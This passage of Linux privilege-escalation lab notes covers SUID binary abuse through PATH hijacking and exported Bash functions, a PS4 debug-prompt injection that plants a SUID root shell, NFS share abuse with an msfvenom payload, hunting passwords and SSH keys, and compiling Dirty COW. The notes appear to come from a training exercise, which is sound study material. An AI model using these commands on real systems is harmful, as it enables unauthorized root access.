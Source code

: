 ### Environment Variables
+ The suid-env binary inherits the user's PATH, which can be exploited.
+ First execute the binary & run strings on it, it tries to start the apache2 webserver but does not use the full path for `/usr/sbin/service`.
+ Compile C code which spawns a shell:
	- `gcc -o service service.c`
		```
		int main() {
			setuid(0);
			system("/bin/bash -p");
		}
		```
+ Prepend the current directory to PATH: `PATH=.:$PATH`
+ Run suid-env to gain root.

### Abusing Shell Features (#1)
+ Ran strings on suid-env2 binary, it uses absolute path.
+ In Bash versions older than 4.2-048, it is possible to define shell functions with names that resemble file paths then export them.
+ Created a Bash function  with the name `/usr/sbin/service` and export it in a shell script as follows:
    ```
    function /usr/sbin/service { /bin/bash -p; }
    export -f /usr/sbin/service
    /usr/local/bin/suid-env2
    ```

### Abusing Shell Features (#2)
+ Bash uses environment variable PS4 to display extra prompt for debugging statements.
+ Run the suid-env2 executable with debugging enabled: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`
+ Run the rootbash binary to get root: `/tmp/rootbash -p`

## Password & Keys
### History Files
+ Always check hidden history files to look for passwords/hints.

### Config Files
+ Config files often contain passwords in plaintext.

### SSH Keys
+ Look for hidden SSH keys, and use it to gain root.

## NFS
+ Check the NFS share config using `cat /etc/exports`. 
+ As root on kali, create a mount using:
	- `mkdir /tmp/nfs`
	- `mount -o rw,vers=2 VIC_IP:/tmp /tmp/nfs`
+ Craft an exploit using `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`.
+ Set SUID: `chmod +xs /tmp/nfs/shell.elf`
+ Go back to victim as user and execute `/tmp/shell.elf` to get root.

## Kernel Exploits
+ Kernel exploits are unstable and must be used as a last resort.
+ Run the Linux Exploit Suggester.
+ Compile dirty cow on the target machine using `gcc -pthread c0w.c -o c0w`.
+ Once exploit completes, run `/usr/bin/passwd` to gain root.
